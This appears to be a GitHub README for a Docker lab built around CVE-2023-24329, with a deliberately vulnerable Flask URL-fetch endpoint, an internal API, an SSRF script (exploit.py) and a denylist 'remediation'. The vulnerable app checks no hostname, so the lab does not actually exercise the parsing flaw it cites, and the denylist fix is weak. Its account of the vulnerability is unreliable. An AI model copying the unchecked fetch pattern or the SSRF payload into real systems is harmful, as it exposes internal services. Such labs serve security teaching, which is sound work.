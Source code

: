 # urllib_ssrf_lab

A demonstration of [CVE-2023-24329](https://nvd.nist.gov/vuln/detail/CVE-2023-24329) – a URL parsing vulnerability in Python’s `urllib` that can be abused to bypass hostname checks and perform SSRF (Server-Side Request Forgery).

## 🗂 Directory structure
```
urllib_ssrf_lab/
├── docker-compose.yml
├── vulnerable_app/
│   ├── Dockerfile
│   └── app.py
├── internal_api/
│   ├── Dockerfile
│   └── app.py
├── exploit.py
├── remediate.py
└── README.md
```

---

### vulnerable_app/Dockerfile
```Dockerfile
FROM python:3.9-slim
WORKDIR /app
COPY app.py .
RUN pip install flask
EXPOSE 5000
CMD ["python", "app.py"]
```

### vulnerable_app/app.py
```python
from flask import Flask, request
import urllib.request

app = Flask(__name__)

@app.route("/fetch")
def fetch():
    url = request.args.get("url")
    if not url:
        return "Missing URL parameter", 400

    try:
        with urllib.request.urlopen(url) as response:
            return response.read(), 200
    except Exception as e:
        return f"Request failed: {e}", 500

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

---

### internal_api/Dockerfile
```Dockerfile
FROM python:3.9-slim
WORKDIR /app
COPY app.py .
RUN pip install flask
EXPOSE 8000
CMD ["python", "app.py"]
```

### internal_api/app.py
```python
from flask import Flask

app = Flask(__name__)

@app.route("/")
def index():
    return "Internal API: You shouldn’t be here via SSRF!"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8000)
```

---

### docker-compose.yml
```yaml
version: '3'
services:
  vulnerable-app:
    build: ./vulnerable_app
    ports:
      - "5000:5000"
    networks:
      - ssrf-net

  internal-api:
    build: ./internal_api
    expose:
      - "8000"
    networks:
      - ssrf-net

networks:
  ssrf-net:
    driver: bridge
```

---

### exploit.py
```python
import requests

# This sends a deceptive URL
ssrf_url = "http://localhost:5000/fetch?url=http://127.0.0.1@internal-api:8000"

print("Sending SSRF attempt to vulnerable app...")
response = requests.get(ssrf_url)
print("Response:")
print(response.text)
```

---

### remediate.py
```python
import urllib.parse

def is_safe_url(url):
    parsed = urllib.parse.urlparse(url)
    hostname = parsed.hostname
    return hostname not in ("127.0.0.1", "localhost", "0.0.0.0", "internal-api")

url = input("Enter a URL: ")
if is_safe_url(url):
    print("Safe URL, proceeding with fetch...")
else:
    print("Blocked potentially unsafe URL.")
```

---

## 🛠 Setup

### Pushing to an existing GitHub repo
If you already have an empty GitHub repository named `urllib_ssrf_lab`, run:
```bash
git init
git remote add origin https://github.com/<your-username>/urllib_ssrf_lab.git
git add .
git commit -m "Initial commit: CVE-2023-24329 SSRF lab"
git branch -M main
git push -u origin main
```

### Cloning and running the lab
```bash
git clone https://github.com/<your-username>/urllib_ssrf_lab.git
cd urllib_ssrf_lab
docker-compose up --build
```

## 🚨 Exploitation
```bash
python exploit.py
```

## 🛡 Remediation
```bash
python remediate.py
```

## ✅ Fix
- Use Python >= 3.11.4
- Sanitize input URLs before making outbound requests
- Implement allowlists or DNS/IP validation
